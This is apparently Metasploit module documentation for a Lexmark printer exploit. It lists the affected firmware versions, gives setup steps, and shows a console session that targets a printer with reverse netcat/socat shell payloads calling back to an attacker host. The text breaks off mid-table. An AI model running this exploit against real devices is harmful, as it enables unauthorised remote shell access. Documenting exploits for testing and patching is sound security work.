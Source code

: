 | CS720, CS725, CS727, CS728 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| C4150 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| CX725, CX727 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| XC4140, XC4143, XC4150, XC4153 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| CS921, CS923, CS927 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| C9235 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| CX920, CX921, CX922, <br/>CX923, CX924 | CXTMH.081.232 and previous | CXTMH.081.233 and later |
| XC9225, XC9235, XC9245, <br/>XC9255, XC9265 | CXTMH.081.232 and previous | CXTMH.081.233 and later |

## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### SLEEP

If the printer has been inactive for some time it might be sleeping, in which case it's best to send a request
or two to wake it up before running the check method or exploit. This parameter indicates how to to wait for the printer
to wake up.

## Scenarios

### Lexmark Printer MC3224 CXLBL.073.023
```
msf6 > use linux/http/lexmark_faxtrace_settings
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/lexmark_faxtrace_settings) > set rhosts 192.168.1.71
rhosts => 192.168.1.71
msf6 exploit(linux/http/lexmark_faxtrace_settings) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/lexmark_faxtrace_settings) > options

Module options (exploit/linux/http/lexmark_faxtrace_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.71     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SLEEP    10               yes       Sleep time to wait for the print to wake
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_socat_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```